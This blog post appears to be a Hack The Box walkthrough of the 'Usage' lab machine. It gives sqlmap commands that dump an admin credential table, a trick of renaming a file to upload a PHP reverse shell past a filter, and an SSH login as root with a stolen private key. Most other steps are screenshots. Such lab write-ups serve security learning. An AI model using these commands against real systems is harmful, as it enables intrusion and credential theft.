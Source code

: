 ```yaml
---
layout: post
title: 'Usage Walkthrough: Conquering Hack The Box Machines "Usage htb"'
date: 20-08-2024
categories: [HackTheBox]
tag: machines  
---
```

![](/Images/usage/d.png)

## Introduction

Usage is an easy Linux machine that features a blog site vulnerable to SQL injection, enabling the retrieval and cracking of the administrator's hashed password. This grants access to the admin panel, where an outdated Laravel module is exploited to upload a PHP web shell, leading to remote code execution. On the machine, plaintext credentials found in a file allow SSH access as another user, who can execute a custom binary with root privileges. The tool makes an insecure call to 7zip, which is exploited to read the root user’s private SSH key, resulting in full system compromise.

## Reconnaissance 

 Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ```
  -─(hu1k0㉿kali)-[~/Desktop/HTB]
  └─$ nmap -sV -sC -oN scan.txt 10.10.11.18 
 ==============================================
 Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 16:02 EEST
 Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
 Service scan Timing: About 50.00% done; ETC: 16:03 (0:00:06 remaining)
 Nmap scan report for usage.htb (10.10.11.18)
 Host is up (0.15s latency).
 Not shown: 998 closed tcp ports (conn-refused)
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux;   protocol 2.0)
 | ssh-hostkey: 
 |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
 |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
 80/tcp open  http    nginx 1.18.0 (Ubuntu)
 |_http-title: Daily Blogs
 |_http-server-header: nginx/1.18.0 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at  https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 54.56 seconds

 ```

## Exploration the website


 

    Visiting the IP address in a browser redirects us to a website named “usage.htb”, presenting a form and various navigation options.

 ![](/Images/usage/login.png)  

 ![](/Images/usage/reg.png)

 ![](/Images/usage/adminlogin.png) 

 - i try to make account and login . 

 and then i found new directory.. ('/dashboard')

 ![](/Images/usage/regfg.png)

 ![](/Images/usage/dash.png)

 - __i open the [burpsuite](https://portswigger.net/burp) and browse the site i hobe to find somthing Juicy..__

 - then i back and try to "Reset Password" to my new register account then i try to do a ```sqlinjection``` and boom it's WORK!!.

 ![](/Images/usage/sssforget.png)

## Exploit 

 now i will use [sqlmap.](https://sqlmap.org/) to do sql injection 

 1. take a new request then make to it dorp not farward and save it in "sql.txt"

     ![](/Images/usage/sql.png)

 2. write this command to do sql injection . and get databases..

     > sqlmap -r sql.txt  -p email --level 5 --risk 3 --threads 10 --batch  --dbs

    ![](/Images/usage/1q.png) 

 3. write this command to get tables in usage_blog database.

     > sqlmap -r sql.txt  -p email --level 5 --risk 3 --threads 10 --batch  -D usage_blog --tables

     ![](/Images/usage/tables.png)

 4. write this command to get admin_users table dump..

     > sqlmap -r sql.txt  -p email --level 5 --risk 3 --threads 10 --batch  -D usage_blog -T admin_users --dump 

     ![](/Images/usage/wrt.png)

 5. now we can to decrypt the hash by [johntheripper.](https://www.kali.org/tools/john/) tool .

     ![](/Images/usage/passs.png)   

 - now we can login in ```admin.usage.htb```   

 ![](/Images/usage/lopop.png) 

 - aftrer some search i understand it have "file upload vulnerability"  

 ![](/Images/usage/file.png)

## User Flag
 
 - now we will try upload [php-reverse-shell] (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

 ![](/Images/usage/ertoo.png)

 - so i will rename the file befouer i uploud it . 

 > cp shell.php shell.php.jpg

 ![](/Images/usage/okk.png)

 - now i can intercept the request with burp after i clicked submit and change it again from ```shell.php.jpg``` to ```shell.php```
 and click right and open the image in new tab ...

 ![](/Images/usage/shell.png)

 ![](/Images/usage/usertext.png)

 - now after some search in the machine i found this file ```.monitrc```
 - i found this password and connect by ssh.

 ![](Images/usage/xander.png)

  

## Privilege Escalation

 - at first i will use ```sudo -l```

 ![](Images/usage/sudo-l.png) 

 > strings /usr/bin/usage_management

 and i found this 

 ![](/Images/usage/ggggg.png)

 after i search about it i found this.

 ![](/Images/usage/aearch.png)

 ![](Images/usage/hacktriks.png)

 so i will try this to get ```.ssh/id_rsa```

 - first i will go to excutable path and make the files on it ..

 ![](Images/usage/pre1.png)

 ![](Images/usage/collect.png)

 - Make a file called it id_rsa 

 ![](Images/usage/idrttttt.png)

  > chmod 600 id_rsa

  > ssh -i id_rsa root@10.10.11.18

  ![](/Images/usage/root.png)
 